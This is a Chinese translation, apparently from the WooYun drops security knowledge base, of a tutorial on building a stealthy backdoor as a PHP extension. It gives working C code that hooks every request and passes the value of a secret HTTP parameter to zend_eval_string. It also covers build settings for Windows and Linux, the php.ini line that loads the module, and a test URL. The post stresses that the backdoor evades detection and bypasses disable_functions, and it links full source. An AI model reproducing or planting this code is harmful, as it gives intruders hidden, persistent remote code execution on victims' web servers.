






# 编写基于 PHP 扩展库的后门

2014/09/17 16:23 | [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

from:[`stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/`](http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/)

## 0x00 前言

* * *

今天我们将讨论编写基于 PHP 扩展库的后门。通常来说，大部分入侵者都会在脚本中留下自定义代码块后门。当然，这些东西很容易通过源代码的静态或动态分析找到。

利用 PHP 扩展库的好处显而易见：

```
很难寻找
绕过 disable_functions 选项 
有能力控制所有的代码
访问代码执行的 API 
```

但是我们需要有编辑 PHP 配置文件的能力。

## 0x01 细节

* * *

//【译者注：用 linux 两条命令搞定了，何必 windows 费这么大劲】
作为例子，我会用 Windows 来写。写扩展我用的 Visual Studio 2012 Express 版本。还需要的源代码最新版本，编译 PHP 库（可从同一来源收集）。为简单起见，我们需要是的 php-5.5.15-Win32 的 VC11-86 和源 PHP-5.5.15-src.zip

解压使用 C 编译 PHP:PHP，源代码在 C:PHP-SRC。

然后，你需要进行一些设置。

1）添加预处理器定义：

```
ZEND_DEBUG=0 
ZTS=1
ZEND_WIN32 
PHP_WIN32 
```



预处理器定义
2）添加的目录，用于连接源：

```
C: PHP-SRCmain
C: PHP-SRCend
C: PHP-SRCTSRM
C: PHP-SRC
egex
C: PHP-SRC 
```



其他目录连接

3）添加其他目录中 liboy php5ts.lib（C： PHP dev 的）



其他目录库
4）添加连接库 php5ts.lib。



装配额外的库

5）指定收集文件的路径。



保存配置文件
配置参数为 Workspace 扩展的开发后（详情可以在 http://blog.slickedit.com/2007/09/creating-a-php-5-extension-with-visual-c-2005/找到），创建一个新的项目类型后门“控制台应用程序的 Win32”。



在 Visual StudioVyberem 型“库 DLL»项目”
选择合适类型


然后，从项目中删除不必要的文件。应该只需要 backdoor.cpp，STDAFX.CPP 和 stdafx.h 中。

在头文件 stdafx.h 中
：

```
#pragma once
#ifndef STDAFX
#define STDAFX
#include "zend_config.w32.h" 
#include "php.h"
#endif 
```

现在，我们直接进入 PHP 扩展的代码。删除所有行，并添加所需的文件连接。

```
#include "stdafx.h"
#include "zend_config.w32.h"
#include "php.h" 
```

如果 workspace 设置已经正确，警告就会消失。
当模块被初始化时，会有几个事件，其中每一个都在特定条件下发生。我们需要在查询执行时，去执行我们的代码。要做到这一点，你必须初始化我们所需要的功能，我给它命名为«hideme»。
    PHP_RINIT_FUNCTION(hideme);
然后你可以去看模块的初始化。

```
zend_module_entry hideme_ext_module_entry = {
    STANDARD_MODULE_HEADER,
    "simple backdoor",
    NULL,
    NULL,
    NULL,
    PHP_RINIT(hideme),
    NULL, 
    NULL,
    "1.0",
    STANDARD_MODULE_PROPERTIES
};
ZEND_GET_MODULE(hideme_ext); 
```

在这篇文章中，我们只需要加载中代码被执行即可，因此运行和卸载模块由空取代。
现在，你可以去看 hideme 的函数体。

```
PHP_RINIT_FUNCTION(hideme)
{

    char* method = "_POST"; //超全局数组，从中我们采取 perametr 和价值   char* secret_string = "secret_string"; //参数，这将是运行的代码    
    //【译者注：在原文作者的 github 代码中 method 是 get，secret_string 是 execute，请大家按照 github 代码进行测试，不修改原文了】
    zval** arr;
    char* code;

    if (zend_hash_find(&EG(symbol_table), method, strlen(method) + 1, (void**)&arr) != FAILURE) { 
        HashTable* ht = Z_ARRVAL_P(*arr);
        zval** val;
        if (zend_hash_find(ht, secret_string, strlen(secret_string) + 1, (void**)&val) != FAILURE) { //查找散列表中所需的参数          
    code =  Z_STRVAL_PP(val); //值
    zend_eval_string(code, NULL, (char *)"" TSRMLS_CC); //代码执行
        }
    }
    return SUCCESS;
} 
```

注释应该比较清楚。最初，我们设置 HTTP 方法和参数 secret_string。然后再寻找正确的数组参数，如果有的话，我们就从它的值中取指令，并通过 zend_eval_string 执行代码。
编译后的所得，即可作为一个扩展库。

下载源代码

[`github.com/akamajoris/php-extension-backdoor`](https://github.com/akamajoris/php-extension-backdoor)

## 0x02 测试

* * *

//以下为译者测试截图：


```
http://127.0.0.1:1629/20140917/test.php?execute=phpinfo(); 
```

（因为原作者 github 代码设置的是 execute）

Linux 编译（kali）

```
apt-get install php5-dev
phpize && ./configure && make 
```

在 kali 下测试一遍成功，我比较懒，直接 chmod 后把 so 复制到/var/www 了哈哈

然后 php.ini 加上

```
extension=/var/www/back.so 
```

重启 apache，测试成功

版权声明：未经授权禁止转载 [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)
*   [深入分析 Fiesta Exploit Kit](http://drops.wooyun.org/tips/4858)
*   [攻击 JavaWeb 应用[4]-SQL 注入[2]](http://drops.wooyun.org/tips/288)
*   [JBoss 安全问题总结](http://drops.wooyun.org/papers/178)